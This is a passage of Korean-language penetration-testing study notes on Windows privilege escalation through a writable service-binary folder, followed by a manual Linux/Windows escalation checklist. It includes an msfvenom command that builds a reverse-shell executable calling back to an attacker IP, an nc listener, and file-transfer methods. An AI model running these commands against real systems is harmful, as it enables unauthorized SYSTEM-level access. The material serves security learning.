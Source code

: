 발견:

```
서비스명: VulnService
실행 경로: C:\Program Files\Vuln Service\vulnsvc.exe
권한: SYSTEM
```

하지만! `C:\Program Files\Vuln Service` 폴더가 모든 사용자 쓰기 가능!

→ 이 경로에 악성 `vulnsvc.exe`를 대체해 넣으면 SYSTEM으로 실행됨

---

## 3️⃣ 익스플로잇 (수동)

1. 로컬에서 리버스 쉘 payload 생성:

   ```powershell
   msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.5 LPORT=4444 -f exe > vulnsvc.exe
   ```

2. 파일 업로드:

   - PowerShell, `certutil`, `nc`, `python http.server` 등으로 전송

3. 대상 서비스 실행 재시작 (서비스가 재부팅되거나 자동으로 시작될 때 실행됨)

4. 리버스 연결 대기:

   ```bash
   nc -nvlp 4444
   ```

5. SYSTEM 권한 획득

---

## 🧠 핵심 개념

- 윈도우에서는 권한 상승 경로로 "서비스 실행 파일 경로 변경"이 대표적
- 서비스 실행 파일 위치에 **쓰기 권한이 있으면** 악성 실행 파일로 교체 가능
- 공격자가 **자동 실행 환경을 악용**해서 SYSTEM 권한으로 쉘 획득

---

# ✅ 수동 권한 상승 체크리스트

| 항목              | 리눅스                                   | 윈도우                                |
| ----------------- | ---------------------------------------- | ------------------------------------- |
| 사용자 정보       | `whoami`, `id`                           | `whoami`, `hostname`                  |
| 커널/시스템 정보  | `uname -a`                               | `systeminfo`                          |
| 권한 있는 파일    | `find / -perm -u=s`, `sudo -l`, `getcap` | 서비스 실행 파일 권한, unquoted paths |
| 크론탭/서비스     | `crontab -l`, `/etc/init.d`              | `Get-Service`, `schtasks`             |
| 환경 변수         | `env`, `PATH`                            | `Get-ChildItem Env:`                  |
| 취약한 소프트웨어 | 버전 확인 후 CVE 검색                    | 마찬가지                              |

---